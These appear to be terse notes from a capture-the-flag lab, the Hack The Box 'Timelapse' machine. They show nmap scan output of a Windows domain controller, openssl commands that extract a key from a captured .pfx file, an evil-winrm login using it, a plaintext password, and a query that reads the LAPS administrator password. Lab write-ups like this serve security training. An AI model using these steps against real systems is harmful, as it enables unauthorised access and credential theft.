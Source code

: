 

```text
PORT      STATE SERVICE        REASON
53/tcp    open  domain         syn-ack ttl 127
88/tcp    open  kerberos-sec   syn-ack ttl 127
135/tcp   open  msrpc          syn-ack ttl 127
139/tcp   open  netbios-ssn    syn-ack ttl 127
389/tcp   open  ldap           syn-ack ttl 127
445/tcp   open  microsoft-ds   syn-ack ttl 127
464/tcp   open  kpasswd5       syn-ack ttl 127
593/tcp   open  http-rpc-epmap syn-ack ttl 127
636/tcp   open  ldapssl        syn-ack ttl 127
5986/tcp  open  wsmans         syn-ack ttl 127
9389/tcp  open  adws           syn-ack ttl 127
49667/tcp open  unknown        syn-ack ttl 127
49673/tcp open  unknown        syn-ack ttl 127
49674/tcp open  unknown        syn-ack ttl 127
49693/tcp open  unknown        syn-ack ttl 127
63059/tcp open  unknown        syn-ack ttl 127

PORT     STATE    SERVICE           REASON          VERSION
53/tcp   open     domain            syn-ack ttl 127 Simple DNS Plus
88/tcp   open     kerberos-sec      syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-10-06 00:18:43Z)
135/tcp  open     msrpc             syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open     netbios-ssn       syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open     ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?     syn-ack ttl 127
593/tcp  open     ncacn_http        syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open     ldapssl?          syn-ack ttl 127
3268/tcp open     ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open     globalcatLDAPssl? syn-ack ttl 127
5985/tcp filtered wsman             no-response
9389/tcp open     mc-nmf            syn-ack ttl 127 .NET Message Framing
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

timelapse.htb
dc1.timelapse.htb















openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc
openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
 
 
 evil-winrm -i $IP -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt




E3R$Q62^12p7PLlC%KWaxuaV

Get-ADComputer DC01 -property 'ms-mcs-admpwd'



https://0xdf.gitlab.io/2018/11/08/powershell-history-file.html
